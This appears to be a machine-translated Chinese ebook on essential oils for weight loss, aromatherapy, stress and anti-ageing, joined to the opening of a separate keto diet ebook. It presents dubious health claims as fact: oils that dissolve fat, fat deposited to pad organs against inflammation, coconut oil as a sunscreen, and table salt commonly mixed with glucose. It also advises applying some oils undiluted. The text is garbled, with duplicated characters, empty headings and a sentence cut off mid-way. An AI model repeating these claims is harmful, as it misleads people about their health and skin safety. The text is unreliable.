葡萄柚精油之所以有助于减肥，因为它含有天然化合物。这些化合物有助于实现理想体重的各个阶段。其中一种化合物是酮内酯（nootactone）。这种天然化合物能刺激 AMPK，人体内控制能量水平和代谢率的酶。当酮内酯激活 AMPK 时，骨骼肌、肝脏和大脑中的化学反应会加快。这种反应可以提高运动表现，增加耐力，减少体重增加并降低体脂。每周至少接触葡萄柚3次，每次15分钟，结果显示可以减少食欲并加速减肥。

葡萄柚中另一种有助于减肥的化合物是柠檬烯（limonene）。它能促进体内的脂肪分解解。这一过程涉及身体脂肪和蛋白质的分解，有助于减肥。

## 柠檬精油

柠檬精油通过冷压柠檬皮获得。这种油具有洁净、清新的提提神气味，并带有略微酸酸的后调。

这是另一种可以帮助你减肥的精油。这一目标通过以下行动实现：

- 抑制体重增加
- 增加能量水平
- 改善情绪
- 缓解疼痛

柠檬精油含有化学化合物柠檬烯。它在人体内具有强大的溶脂作用。如果与葡萄柚一起使用，将会有更大的脂肪燃烧和更多的减肥效果。

情绪改善有助于减肥。除了改善负面情绪外，去甲上腺素的水平也会增加。这是一种压力激素和神经递质，在“战斗或逃”机制中起着重要作用。去甲上腺素水平的提高促进了脑组织的更好氧化。由此，认知功能得到提高。

大脑的其他功能也得到了改善，例如更好的心率调节。这将导致心率增加和血液循环。这些状况有助于肌肉工作得更好、更快。当它们运行得更好时，更容易进行可以燃烧所有多余脂肪的运动。柠檬精油还有助于缓解运动后的肌肉疲劳和酸痛。

## 薄荷精油

薄荷油清新的气息使其成为一直以来最喜爱的精油之一。这种油含有薄荷醇化合物，具有冷却和镇静的作用。

薄荷油通过以下方式帮助身体：

- 减少食欲
- 改善消化
- 提升情绪
- 增加能量
- 增加精神敏锐度

薄荷精油含有高达70%的薄荷醇。几个世纪以来，这种油一直用于医学，特别是缓解消化不良等消化系统问题。它还能放松肌肉，缓解酸痛和疼痛。如果与孜然油混合，薄荷油可以缓解胃部肌肉。这种混合物可以减少胀气并改善胆汁流量。这些有助于食物的消化和在胃肠道中的移动。流体通过肠道的速度会更快。

这种精油对食欲有天然的抑制作用。一项研究发现，仅仅吸入薄荷油的气味就能降低饥饿水平。摄入的热量也更少。该研究参与者每2小时吸入一次薄荷油的气味。

## 肉桂精油

这种精油取自肉桂树（Cinnamomum sp.）的叶和内皮。肉桂精油的气味温暖而甜。

对身体的益处包括：

- 提高胰岛素敏感性
- 更好地调节血糖
- 减少炎症

肉桂油对胰岛素的影响对体重影响巨大。胰岛素是一种在调节血糖水平中起主要作用的激素。它将血液中的糖转化为各种组织可以能量，或者将血液中的糖转化为脂肪存在组织内。如果发生胰岛素敏感性下降，细胞会对胰岛素的作用产生抵抗。身体不再燃烧血液中的糖，而是错误地将更多的糖作为脂肪储存起来。

体重随之增加，减肥尝试变得困难。胰岛素抵抗会导致血糖升高，从而引发更高的胰岛素产生。这两种情况都会恶化胰岛素抵抗，并增加2型糖尿病的风险。肉桂提取物提高了细胞对胰岛素的敏感性，促进更好地调节血糖水平。身体利用、代谢和储存糖方式的改善有助于调节脂肪储存并促进更好的燃烧。

炎症在体重增加中也起着主要作用。急性炎症对人体是有益的。它保护身体免受进一步伤害。它也是对感染的重要反应之一。慢性或持续性炎症是对人体内组织构成的威胁。为了保护自己，身体会在不同器官周围进行“填充”。这种填充是通过在器官周围堆积更多脂肪创建的。由于堆积的脂肪充了保护垫，任何试图燃烧它们的尝试（即为了减肥的运动和饮食）都被证明是几乎是不可能的。

除非炎症消失，否则身体不会轻易放弃它的保护。肉桂在这方面有所帮助。这种芳香的精油可以抑制体内炎症分子的释放。这是减少炎症的重要一步。一旦炎症消退，身体将更愿意释放脂肪。

## 其他值得尝试的精油

除了上述讨论的精油外，还有值得尝试的精油。这些精油在促进减肥方面与上述的同样有效。

- 茴香
- 佛柠檬
- 檀香
- 芹籽
- 丁香
- 橘橘
- 橙子
- 橘
- 柠檬草
- 姜根
- 留荷
- 尤加利
- 广藿
- 柏松
- 杜松果
- 月桂迷迭香
- 茉莉

## 鼠尾草薰

## 如何使用精油减肥

安全使用与选择正确的精油同样重要。吸入是最常用的方法，也是风险最低的方法。某些精油直接涂在皮肤上可能会引起过敏。切勿摄入或加入食物。

如果精油用基础油充分稀释，局部使用就是安全的。在用于大面积皮肤之前，通过皮肤测试检查过敏反应。避免涂抹了精油的皮肤接触直射阳光。在使用柑橘类精油时最重要。在涂抹精油后12到18小时内避免阳光照射。

### 减脂按摩油

将各5滴丝松、柠檬和葡萄柚精油混合。稀释在1/4杯杏仁油中。在大腿、上臂和腹部区域按摩。

### 抗蜂窝组织润膏

混合10滴葡萄柚精油和5滴迷迭香精油。加入各2滴姜、薄荷和丝松精油。用基础油（如橄榄油、荷荷巴油或杏仁油）稀释。

### 焕活沐浴

准备一个热水浴。加入各5滴姜、檀香、葡萄柚、柠檬和橙子精油。

### 抑制食欲的扩散

将40滴橘橘精油与20滴柠檬油、12滴姜油和12滴薄荷油混合。将少量油油混合物加入香薰机中。

## 促进代谢的浸泡

准备一个热水浴。混合 2 汤匙荷荷巴油、各 10 滴迷迭香油和柏松油，以及 8 滴柚橘精油。将这种油混合加入浴水中。

## 抑制食欲膏

混合 ½ 杯橄榄油、80 滴莳茴茴精油、40 滴佛手柑油和 24 滴广尾藿精油。用它来按摩腹部。

## 第二章 使用精油进行芳疗法

芳疗法最广为人知的是利用精油的香气来促进放松和缓解压力。精油配方也可用于缓解常见疾病。这些精油还能促进整体健康和福祉。

## 按摩油

对于按摩油或身体油，精油必须用载体油稀释。这些是是其他草本或植物油，例如椰子油或荷荷巴油。稀释对于避免直接在皮肤上使用精油时产生任何负反应非常重要。虽然精油通常是安全的，但可能含有对敏感人群产生刺激的化合物。

安全的稀释指南包括：

- 适用于婴儿和幼童的油：每盎司载体油加入 3-6 滴，产生 0.5% 到 1% 的稀释浓度，这对于这些孩子通常是安全的。
- 适用于成人使用的油：不同用途使用多种稀释比例。常见的稀释比例为：
- 2.5% 稀释：每盎司载体油加入 15 滴选定的精油
- 3% 稀释：每盎司载体油加入 20 滴选定的精油
- 5% 稀释：每盎司载体油加入 30 滴选定的精油
- 10% 稀释：每盎司载体油加入 60 滴选定的精油

按摩油通常用于以下情况：

- 焦虑/压力缓解
- 偏头痛
- 头痛
- 失眠
- 风湿和类关节炎（亚急性期）
- 缓解急性或慢性疼痛
- 慢性肌肉或关节酸痛
- 减轻炎症
- 缓解肌肉痉挛
- 增强免疫力
- 放松和舒缓神经系统
- 怀孕和分娩按摩
- 作为拉伤、扭伤和其他重复性运动损伤治疗的一部分

## 面部乳液、霜和油

精油被加入基础无味的面部乳液和霜中增强效果。面部油可以通过混合精油和载体油（草本/植物油）制作。

面部皮肤比身体其他部位薄且更敏感。确保使用温和的油（精油和载体油）并适当稀释，以避免任何负反应。安全的稀释率：

对于敏感皮肤的成人：0.5 到 1% 稀释 = 每盎司载体油混合 3-6 滴精油

对于皮肤正常健康的成人：1-2.5% 稀释 = 每盎司载体油混合 6-15 滴精油

面部乳液、霜和油不仅用于面部。它们还可以用于皮肤其他部位以达到以下目的：

- 减缓皮肤老化
- 促进伤口愈合
- 减少并改善疤痕外观
- 平衡皮脂产生
- 支持并增强皮肤正常的免疫细胞功能
- 改善局部皮肤循环
- 促进皮肤排毒
- 改善肤色
- 舒缓和软皮肤
- 与乳霜或花水/水配合使用促进皮肤保湿

## 沐浴

为了健康、舒缓和放松的沐浴，将精油加入到加入水的分散剂中。通常，芳疗浴是通过将 2 到 12 滴精油混合到 1 茶匙全脂、蜂蜜或植物（载体）油中准备的。

芳疗浴非常适合：

- 减轻焦虑/压力
- 舒缓身体或心理疲劳
- 缓解肌肉疼痛、紧张酸酸
- 增强淋巴循环
- 刺激血液循环
- 减少僵硬疼痛

改善健康和肤色

支持皮肤排毒

## 蒸汽吸入

这是改善呼吸和免疫功能的常用芳疗方法之一。只需烧水并加入 3 到 7 滴精油。用于此方法的最佳精油包括茶树油、尤加利油、柠檬油和百香精油。

蒸汽吸入用于：

- 上呼吸道堵塞（感冒或流感）
- 鼻窦感染或鼻窦炎
- 增强呼吸功能

## 扩散

扩散将精油的芳香和疗愈气味散在房间里。可以使用市售的扩散机。这种方法的用于：

- 环境氛围
- 失眠和其他睡眠障碍
- 缓解焦虑/压力
- 提升情绪
- 改善空气质量
- 提高敏锐度
- 减少空气病原体

## 促进精神清醒的精油配方

提高记忆力和注意力：

混合各 5 滴牛膝油、迷迭香、柠檬和薄荷精油。

提高精神活力快速提神：

混合各 2 滴薄荷油和野橙橘精油。

缓解头痛：

混合等量的迷迭香、薰衣草、百香、马郁兰和薄荷。加入扩散机以获得更好效果。

## 活力的精油配方

增加能量水平：

混合等量的活力的大地类精油（如生姜和乳香油）与绿色草本油（如迷迭香、薄荷和罗勒）。

提神精神和身体：

混合各 4 滴野橙橘油和薄荷油。将几滴滴在手帕或放入扩散机中吸入。

增加表现和活力：

混合各 2 滴柚橘油和薄荷油。

提升体内和环境的整体能量水平：

混合 8 滴柚橘油、4 滴薰衣草油、4 滴柠檬油和 2 滴罗勒油。

## 提升情绪的精油配方

改善聚会时的氛围：

混合各 3 滴薰衣草和佛手柑精油，并加入 2 滴天竺葵油。

情感疗愈：

混合各 2 滴佛手柑、野橙橘、乳香和薰衣草油。将这种油混合物加入扩散机。

## 支持免疫的精油配方

疏通鼻腔并促进免疫反应：

混合各 2 滴柠檬、薄荷和薰衣草精油。将此配方放入扩散机中。这种配方最好在夏季和春季使用。

增强呼吸功能：

混合各 1 滴迷迭香、尤加利、薄荷、柠檬和青柠檬。加入扩散机中。这种配方在流感和感冒季节对加强呼吸系统非常有帮助。

对抗感冒：

混合 20 滴橙子油、各 10 滴杜松油和尤加利油。加入各 6 滴生姜和红木油。最后，加入 4 滴生姜精油。当感到不适或感冒初兆时，将几滴这种配方加入扩散机中。

预防感冒和流感：

混合 5 滴薰衣草油、5 滴尤加利油、3 滴山龙脑油和 2 滴月桂油。在整个感冒和流感季节在扩散机中使用此配方以生病。

缓解过敏症状：

混合各 2 滴薰衣草、柠檬和薄荷油。通过手帕吸入几滴这种配方或配合扩散机使用。

## 促进睡眠和放松的精油配方

营造放松的氛围：

加入各 2 滴马郁兰、橙子和薰衣草精油。然后加入 1 滴罗马洋甘菊和 1 滴德国甘菊。将此配方加入扩散机。

营造舒缓的氛围：

混合各 6 滴青柠檬油、6 滴佛手柑油和 6 滴柚橘精油。加入 4 滴生姜精油和 2 滴檀香精油。将此配方加入扩散机。

一天结束时的放松：

混合 10 滴薰衣草精油和各 2-3 滴马当归和玫瑰天竺葵精油。

睡眠：

混合以下精油各 1 滴：依兰、广藿、薰衣草和佛手柑。放入扩散机中并在床边使用以促进更快入睡。

# 第3章 使用精油缓解压力

缓解压力也是使用精油的主要益处之一。这些是非常方便的缓解措施，因为你可以随地携带。它们虽然装在小容器里，但非常强劲且高效。使用它们快速又简单。只需在手帕或衣服上滴几滴，你整天都能闻到缓解压力的芳香。你可以将几滴加入香薰机中，让你的工作场所、汽车或家里同时保持香气和放松。你还可以使用一些精油进行更放松的按摩或镇静的沐浴。

精油的气味和分子可以触发大脑中控制情绪的区域。它们能促进身体释放化学物质，从而促进放松、改善心情并产生冷静能量。缓解压力的精油分为三类：

## 影响压力情绪成分的精油

这些精油能促进身体的平静和放松。包括：

- 罗马甘菊油：用于坐立不安；促进平静

用于缓解压力时，在手腕和脚踝处涂抹2–4 滴油。这将促进体内更好的能量流动以对抗压力。将几滴加入手帕中，并在全天呼吸。在香薰机中加入约2–4 滴，让工作场所或家里闻起来放松且冷静。

- 天竺葵：用于释放负面记忆；具有提神、放松的效果

使用时，用偏好的基础油（荷荷巴油、甜杏仁油、橄榄油、椰子油等）按 50:50 的比例稀释。将2到4 滴混合油涂在太阳穴和腹部。将同样的几滴加入手帕或掌心中吸入这种提神的气味。将几滴这种油混合物加入香薰机，让家里或工作空间闻起来放松且提神。

- 薰衣草：缓解压力、挫败感和愤怒

用于缓解压力时，将2到4 滴滴在手帕或香薰机中，直接吸入其镇静的气味。

- 迭香：“快乐”草本；对健康神经系统具有支持功能

在使用前，用偏好的基础油将其稀释至 50:50 的浓度。然后通过将几滴稀释后的油混合物加入香薰机或手帕来直接吸入。

- 柠檬香荷：释放内心的负面情绪

这是最昂贵的精油之一，仅次于玫瑰精油。蒸馏成本非常高昂，因为使用了大量的部位，且只能获得极少量的精油。大约3吨柠檬香荷植物原料仅能产生1磅精油。纯净（治疗级）柠檬香荷油的每每每磅可达约15,000美元。每瓶5毫升的油价格通常在150-250美元之间。

也有有些产品的价格便宜得多，每瓶5毫升约10美元。在精油的世界里，高质量的精油能产生最大的益处，而优质的油确实非常昂贵。

使用柠檬香荷油缓解压力时，可直接使用（不稀释）。通过将几滴放在香薰机或手帕上直接吸入其气味。

该类别下的其他精油还包括以下这些。使用方法与之前讨论的该类别精油相同。

- 岩岩草：具有接地作用
- 佛手柑：用于冷静、提神
- 茉莉：用于放松、提神
- 橘橘：用于冷静
- 橙橘：带来喜悦和节奏；提升身心状态

## 支持压力生理成分的精油

这些油支持生理性成分，如肌肉紧张和酸痛、关节疼痛、心率加快、血压升高等。由于它们对改善受压力影响的生理方面有作用，这些精油被认为是补剂。这些精油包括：

- 百香
按 20:80 的稀释比例使用，即将1份百香精油稀释为4份植物油。涂在酸痛或紧张的肌肉上，或吸入其气味以恢复疲劳和压力肌肉的活力。

- 缬草
这种油具有木质和陈旧的味道。使用时，将油直接涂在酸痛或紧张的肌肉上。通过香薰机吸入，或简单地在手帕中加入几滴。

- 薰衣草
直接涂在疲劳和压力大的肌肉上。吸入其气味以促进整体放松。

- 香藿
直接使用或不稀释。在酸痛、疲劳的肌肉上涂抹少量量。通过香薰机或手帕吸入这种提神的气味。

- 黑胡椒
按 50:50 的稀释比例使用。涂在僵硬或酸痛的肌肉上。吸入气味也有助于放松压力肌肉。

## 影响恐惧的精油

影响恐惧的精油是那些能让身体落地，使其与思维恢复正确平衡的油。这能让人保持当下，更加意识到当下或当前的现实。使用这些油时，遵循与之前提到的其他精油相同的指南。这些油包括：

- 柠檬（按 50:50 稀释使用）
- 柠檬香荷（直接使用）
- 岩岩草（直接使用）
- 玫瑰（昂贵；直接使用）
- 依兰依兰（直接使用或不稀释）

压力还有心理成分，这种成分也可以受到精油的影响。这些油可以镇静大脑中的杂念。它还能释放压在心上的负面能量。它能提高清晰度并帮助获得更大的专注。该成分的精油包括：

- 迷迭香
按 50:50 稀释使用。在紧张部位涂抹2到4滴。通过加入香薰机或手帕直接吸入。

- 薄荷
用法与迷迭香相同。

- 柠檬
用法与迷迭香相同。

- 雪松木
直接使用或不稀释。涂在结节、紧张的肌肉上。通过加入香薰机或手帕吸入。

# 第4章 使用精油抗衰老

使用精油可以减缓衰老。某些油可以带回皮肤的青春光泽，并使其变得更加柔软光滑。这些油甚至比市面上的超昂贵精华液更强大。

## 杏仁油

这是用于愈合和焕活皮肤配配的顶级基础油之一。杏仁油含有丰富的欧米伽6亚油酸。涂在皮肤上可以产生许多益处。它具有焕活的效果。它能滋养并水润皮肤。基础油中的维生素A和E能促进细胞再生，替换老旧干燥的细胞。这些还能促进胶原蛋白的产生，使皮肤保持弹性。胶原蛋白能减少皱纹和细纹纹。

皮肤很容易吸收杏仁油。涂抹后不会留下很重的腻感，因此非常适合所有肤质。它是安全的，对于油性皮肤到干燥或敏感性皮肤都很有效。这种油也是最推荐的补水极干燥皮肤的天然油之一。

## 甜杏仁油

这种油富含维生素K和E。这些维生素促进细胞再生并维持弹性。它还能增强皮肤血液循环。血液带来氧气和更多营养，让皮肤看起来更健康、更年轻。血液还提供必要的水分以保持皮肤柔软。良好的循环也意味着细胞产生的废物被移除并带到器官排出。

甜杏仁油具有天然的抗紫外能力。这可以保护皮肤免受紫外线（光老化）导致的加速衰老。这对于经常在阳光下的人来说是非常推荐的油。

这种油没有味道。这使其作为基础油非常完美，因为它不会干扰加入的精油气味。这对于不喜欢气味浓烈的精油的人来说也非常完美。

# 有机初榨椰子油

这种油富含维生素 E，这是一种非常强抗氧化剂。它能保护皮肤免受自由基引起的氧化损伤。氧化性损伤是导致皮肤过早或加速衰老的主要因素之一。它会导致皮肤干燥、产生皱纹并更容易受到损伤。有机初榨椰子油中的维生素 E 在预防这些问题方面非常出色。由于这种特性，这种油是用于抗衰老精华的领先基底油之一。

除了抗氧化维生素 E 之外，椰子油还含有大量的中链甘油酯，称为月桂酸。这是一种非常健康的化合物，有助于延缓皮肤衰老的迹象。它还具有强大的抗菌特性，对皮肤温和但对细菌非常强力。维生素 E 和月桂酸共同作用，在治疗或预防皮肤感染的同时促进皮肤愈合。

抗衰老不是使用椰子油唯一的益处。它还有助于预防或减少橘肿的形成。椰子油可以增强皮肤外层——表皮。这种益处还能使生长纹淡化并消除所谓的角化性角呆。

椰子油具有天然的防晒特性。它能保护皮肤免受有害紫外线的伤害。它是全天然的，100% 不含任何可能损害皮肤的人工化合物。

# 牛油果油

与之前讨论的油相比，这种油非常浓，但它是健康的油之一。牛油果油富植物甾醇，这种化合物能促进皮肤胶原蛋白的产生。胶原蛋白能提高皮肤弹性，使其看起来更柔滑、更年轻。维生素 A 和 E 也大量存在牛油果油中。这些维生素是促进皮肤健康和延缓皮肤衰老迹象出现的最佳维生素。

对于脸部等敏感或皮肤的区域，牛油果油可能太厚了。仅在晚上或计划整天呆在家里使用这种油。涂在皮肤上可能会留下光泽、油腻的外。

# 摩坚油

这种油由约 80% 的脂肪酸组成。使用摩坚油对于促进皮肤良好补水非常好。这些脂肪酸还有助于恢复皮肤弹性，防止细纹和皱纹的出现。

# 玫瑰果籽油

这种可以作为基底油或辅助成分使用。玫瑰果籽油是任何植物油中天然维生素 A 浓度最高的。玫瑰果籽油中的维生素 A 以 ATRA 或全反视黄酸的形式存在。

ATRA 在减少皱纹深度和淡化细纹方面非常有效。它也是促进受损皮肤恢复的顶级油之一。ATRA 提高新皮肤细胞的生长速度，以替换干燥、受损和老的皮肤细胞。它还能促进皮肤表面深层胶原蛋白的产生。

玫瑰果籽油中大量的必需脂肪酸包括 omega-6 亚油酸和 omega-6 油油酸。这些必需脂肪酸能支持并改善皮肤的外观、纹理和弹性。

与大多数其他护肤植物油相比，玫瑰果籽油要轻得多。这使其成为理想的油，在使用时皮肤上没有油腻感。

# 胡萝卜籽油

胡萝卜籽油富含类胡萝卜素，具有良好的抗氧化性能。这增强了人体对阳光有害紫外线的天然保护免疫反应。这种作用提供了更好的保护。类胡萝卜素刺激皮肤细胞再生。它们还支持清除皮肤任何废物、污垢和毒素的排毒过程。这些特性都有助于胡萝卜籽油促进皮肤健康的功效。凭借这些特性，胡萝卜籽油还可以帮助治疗皮屑和湿疹等慢性皮肤问题。

# 天葵油

这种油在减轻炎症性皮肤状况方面非常有效。它可以淡化任何年龄斑，并帮助均匀肤色。天葵油能促进皮肤表面下良好的血液循环。良好的血流支持更快速的细胞再生。这对于淡化皱纹、疤痕和其他皮肤缺陷非常有帮助。

# 沙刺果籽油

这种油富含维生素，可以有效逆转衰老迹象。这种油能为干燥皮肤补水和滋润。它还用于治疗痤疮。涂抹沙刺果籽油可以减少湿疹和色素沉着等皮肤问题的可见度。

# 石榴油

石榴油的抗氧化含量非常高。在对抗由自由基引起皱纹和年龄斑等皮肤衰老迹的氧化损伤时，这种油是一个极佳的选择。抗氧化剂还能减缓皮肤衰老的过程。

石榴油含有鞣酸和石榴酸，进一步滋养皮肤，增强弹性并加速细胞再生。这种油还用于舒缓受损、干燥、灼伤或受刺激的皮肤，例如受皮屑或湿疹影响的皮肤。

# 依莉油

这种油富含具有强大防腐、抗菌和抗炎特性的化合物。依莉油涂在受刺激或受损的皮肤上有舒缓作用。它有助于疤痕愈合和改善皮肤血液循环。它还有助于减少细纹、皱纹以及淡化生长纹。

# 柏油

这种油对血液循环有积极影响。这种作用有助于减少皮肤下破血血管和静脉曲的出现。柏油还可以增强皮肤。

# 乳香油

这种油刺激皮肤细胞更快再生。它还能减少疤痕以及皱纹和细纹。涂抹乳香油可以收紧松弛皮肤，均匀肤色并平衡皮肤 pH 值。

# 柠檬油

这种油有助于淡化难看的黑斑。它能预防并减少细纹和皱纹。

# 檀香油

涂抹檀香油，受刺激和受损的皮肤会得到舒缓缓解。这种油还有助于淡化疤痕、皱纹和线条，以获得光滑皮肤。

# 没药油

涂抹没药油时，受刺激和受损的皮肤会感到舒缓缓解。这种油还能让皮肤变得光滑健康。

# 迷迭香油

这种油在使用时，皮肤的皮肤会变紧致。它能预防并减少皱纹和线条。

# 如何使用这些精油进行抗衰

这里有一些配方，帮助你了解如何使用这些精油并达到抗衰效果。

# 紧致抗衰精华液

将两汤勺甜杏仁油和玫瑰果籽油混合。加入 10 滴天葵油、柏油和 7 滴乳香油。早晚各涂抹这种精华液，以获得更紧致的皮肤。

# 超级抗衰精华液

将半杯杏仁油与各 10 滴玫瑰果籽油、檀香油和胡萝卜籽油混合。再加入各 5 滴乳香油、迷迭香油、没药油、柠檬油和天葵油。在晚上清洁后涂抹这种配方。

# 抗氧化精华液

混合半杯杏仁油和各 20 至 25 滴玫瑰果籽油和胡萝卜籽油。在清洁皮肤后使用。

# 混合、储存和使用抗衰配方的贴士

# 混合指南

将规定量的基底油的一半倒入储存容器中（如小瓶）。加入其他精油，然后用剩余的基底油加满容器。

始终确保在顶部留出一点空间。这个空间将允许油呼吸。

避免用力动作，如快速搅拌或剧烈摇晃。这会破坏油的脆弱有机化合物。

# 储存指南

使用玻璃或陶瓷工具混合油。塑料也可以，但永远不要让油及其配方与金属接触。这可能会干扰油的健康益处。

## 结论

希望你喜欢阅读我的关于《精油入门指南：揭秘精油的神奇力量——减肥、芳疗、缓解压力和抗衰老的精油配方》这本书。

我希望这本书能够帮助你理解这些精油是多么简单、愉快且有效。

下一步是开始尝试这些不同的配方，并体验它们所附带健康益处。

最后，如果你喜欢这本书，我想请你一个忙，你是否愿意在 Amazon 上为这本书留一个评价呢？我将不胜感激！

[点击此处在 Amazon 上为本书留评！]

谢谢，祝你好运！

## 生酮饮食挑战：

现在就开始减肥！惊人的生酮饮食食谱，通过最大程度的脂肪燃烧和健康生活改变你的生活

底部附带免费报告及额外赠内容

另可在 KindleBookSpot.com 获得更多免费和廉价书籍

## 目录

## 引言

## 第1章：多喂我我点！

## 第2章：停止！…别吃那个

## 第3章：早餐组合

## 第4章：主菜

## 第5章：超级零食

## 第结论

## 引言

如果你正在寻找通过减少脂肪来减肥的方法，你可能已经听说过生酮饮食。生酮饮食是一种低碳水饮食，含有大量的蛋白质和脂肪。这种饮食之所以如此有效，是因为它强迫身体燃烧脂肪产生能量，而不是来自碳水的葡萄糖。这是一种一定要尝试的饮食，我保证它将帮助你实现目标，并在此过程中感觉极佳。

生酮饮食的原理是强制身体将脂肪转化为能量，而不是使用碳水作为能量。这为你的器官提供了运作所需的能量，对你的健康也非常有益。

很多人担心，如果身体消耗过多的脂肪来产生能量，那么低碳水饮食会导致血糖水平不足。这实际上是错误的，并且已经在许多对低碳水饮食的人的研究中得到了证实。重要的一点是，尽管你的身体会将葡萄糖转化为脂肪，但反过来并非如此。然而，你的身体可以使用你摄入的蛋白质将其部分转化为葡萄糖，而你的身体是需要葡萄糖的。生酮饮食的主要益处之一是它能让你维持长时间的饱腹感，这也是人们避免各种饮食的主要原因之一。此外，坚持生酮饮食会导致碳水化合物摄入减少，从而导致更显著的减肥。这是因为低碳水饮食有助于身体排出多余的水分，这增加了肾脏排出钠的速度。

你可能会想，高含量的脂肪对你有什么好处呢？很多人不知道脂肪有两种不同的类型。有“坏”脂肪，它们于附着在腹部器官上，这是最难减的脂肪。低碳水饮食有助于减少这些脂肪，这很重要，因为这些脂肪会导致炎症，并增加胰岛素抵抗，从而导致长期健康问题。

然而，并非所有的脂肪都是坏的。有很多高质量脂肪实际上在能量产生中是至关重要的，这些脂肪可以在黄油和橄榄油中找到。

除了帮助减肥，这些饮食通过降低甘油三酯水平来帮助降低患心脏病的风险。这可能是由摄入过多碳水化合物引起的，碳水化合物通常存在于食物中。

我们现在开始生酮饮食之旅，我完全相信如果你开始，你将获得巨大的健康益处，自己也会感觉好得多。让我们开始吧。

不要忘记查看底部我最喜欢的饮食之一：

学习我如何通过3周饮食法快速消除顽固的非愿脂肪的策略。

前往底部获取更多信息，并接收你的免费报告和额外内容！

## 第1章：多喂我我点！

构成生酮饮食大部分的是不同类别的食物。重要的是，必须以正确的量摄入这些食物，以获得生酮饮食的益处。

## 关于“净碳水”

随着多年来“低碳水”饮食普及度的提高，许多健康专业人士问的问题是：“什么时候碳水不被视为碳水？”

食品制造商希望客户继续从他们那里购买，因此为了尝试向关注低碳水的饮食者提供所有美味的、充满碳水化合物食物，他们创建了一种新的碳水化合物类别。这种新型碳水化合物声称提供碳水食物的所有益处，而没有副作用。

“净碳水”的概念建立在并非所有的碳水化合物对身体的作用方式都是相同的。有些吸收得很快，导致血糖水平飙升。另一些被储存为脂肪供以后使用，而某些碳水化合物（如纤维）在消化道中缓慢通过，几乎没有食物被吸收。

食品制造商调整标签，在产品上标出“净碳水”，这通常远少于食品标签上的实际数值。这里需要注意的是，任何 FDA 批准的食品标签上的内容都经过了 FDA 的审查并许可，但制造商在法律上仍允许在标签正面放置误导性信息。

要计算净碳水，食品制造商用碳水化合物的总数减去纤维和糖醇。

答案很简单；这些碳水化合物被声称对血糖水平的影响很小。然而，一些医生警告说，并非所有的碳水化合物对身体的作用方式都是相同的。

## 脂肪与油脂

## 饱和脂肪

## 多不饱和脂肪

## 单不饱和脂肪

## 反式脂肪

## 胆固醇与脂肪

## HDL

## LDL

这些是低密度脂蛋白。这是胆固醇的坏版本。LDL 取

肝脏处理后的胆固醇会被转移到身体组织，增加了血液中的胆固醇含量，并增加了患动脉硬化和心脏病的风险。

## 三甘油酯

当摄入脂肪食物时，脂肪会被消化并吸收到组织中。在组织中，脂肪以三甘油酯的形式存在，便于在组织和血液之间运输。

较低的 LDL（低密度脂蛋白）计数可以减少胆固醇颗粒相互碰撞的机会，并降低形成阻塞的风险。高甘油酯水平可能需要增加 LDL 以便运输；这可能会增加聚集风险，并提高患心脏病的概率。

对于生酮饮食，你应该食用富含欧米伽-3脂肪油的食物，例如鲑鱼、金枪鱼和鳟鱼等。此外，摄入饱和脂肪和单不饱和脂肪，如黄油、夏夷果、牛油果、蛋黄和椰子油。这些是优选的，因为它们具有稳定的化学结构，对身体的炎症性较小。

你应该尽量减少反脂肪的摄入。这意味着要避免使用氢化脂肪，因为它们含有高浓度的反脂肪，对健康有害。简而言之，如果你喜欢炸食，请选择非氢化的选项，如酥油和椰子油。这确保了这些油脂的氧化降至最低，意味着你将获得必需脂肪而没有所有的反脂肪。

警惕具有炎性的欧米伽-6脂肪油。这可能涉及注意任何坚果或种子类食物的摄入。以下是生酮饮食食物列表，它们是脂肪和油脂的极佳来源，且以后不会给你带来问题：

- 牛油果
- 黄油
- 椰子油
- 橄榄油
- 鸡油
- 花生酱
- 非氢化猪油

## 蛋白质

蛋白质负责修复磨损细胞以及整体生长。我们身体的组织大部分由蛋白质组成；从皮肤、头发甚至指甲都是如此。蛋白质有助于血液中激素的产生和调节，这些激素控制着身体的各种功能。

在生酮饮食中，蛋白质的摄入应该是足够的。它应该恰好满足你的蛋白质需求，然而你应该避免高摄入蛋白质，因为这可能导致身体分解蛋白质来产生能量。这意味着身体将分解自身的组织，并在过程中耗尽自己。

生酮饮食的蛋白质来源多种，包括：

- 任何类型的鱼。
- 白肉和红肉

其他来源可以包括贝壳类动物，如牡蛎、龙虾和蟹。全蛋、培根和香肠也是非常好的蛋白质来源。

## 蔬菜

蔬菜在制定生酮饮食中至关重要。它们是维生素的巨大来源，维生素对于产生和维持健康的免疫系统以对抗疾病。选择任何生长在地面上且是绿叶的。然而，某些蔬菜含糖量高，不应在生酮饮食中使用。这种饮食最的蔬菜类型是高营养、低碳，且通常是深色叶菜的。它们包括菠菜、羽甘蓝或任何类似于它们的蔬菜。以下可以作为生酮饮食的良好蔬菜：

- 菠菜
- 西兰花
- 豆角
- 黄瓜
- 蘑菇
- 奶油生菜
- 腌菜
- 菜花
- 芦笋

此外，洋葱、西红柿和大可以包含在生酮饮食中。

### 乳制品

其他应该纳入低碳饮食的其他食物包括全脂乳制品。
这些包括重奶油、硬奶和软奶酪、酸奶油和乡村干奶酪。

## 饮料

摄入生酮饮食的效果之一是你会非常脱水，所以除了咖啡和茶等液体外，大量饮水是非常关重要的。小心不要喝任何含糖的液体，因为这些会破坏你的饮食；远离含糖饮料是最好的选择。如果你渴望吃甜食，使用液体人工甜味剂是可以的。甜味剂的示例包括：

- 甜菊
- 三麦糖
- 赤糖醇
- 木糖醇
- 罗果糖

## 香料

要非常小心你在食物中使用的香料。某些香料碳水化合物含量很高，因为它们大多与糖预混合；即使是普通的食盐通常也混合了葡萄糖粉，因此许多人考虑使用海盐。

以下是适合低碳饮食的香料列表：

- 海盐
- 黑胡椒
- 肉桂
- 辣椒粉
- 姜黄
- 欧芹
- 迷迭香
- 鼠草

## 第二章：停止！…… 别吃那个

在生酮饮食中你应该避免的食物到底是什么？以下可以作为一个通用列表：

- 糖：避免任何含有红糖、甘蔗糖、玉米糖浆、蜂蜜或蔗糖的东西。此外，避免水果，因为大多数水果含有高水平的果糖和蔗糖。简而言之，如果是“甜的”，就不要吃。
- 谷物：这包括小麦、大米、小米、大麦以及由这些谷物制成的产品如小麦粉、面条、煎饼、饼干和蛋糕。
- 玉米：避免玉米制品，如玉米饼、玉米片、爆米花和玉米粉。
- 淀粉：避免土豆、甜薯和山药。这也适用于薯片、薯条和薯饼块。
- 加工食品：大多数此类食品含有糖。此外，罐头汤和炖菜含有隐藏的增稠剂。
- 水果：任何水果都含果糖。浆果的碳水化合物最低；因此如果你想在饮食中加入水果，一两个并无妨。
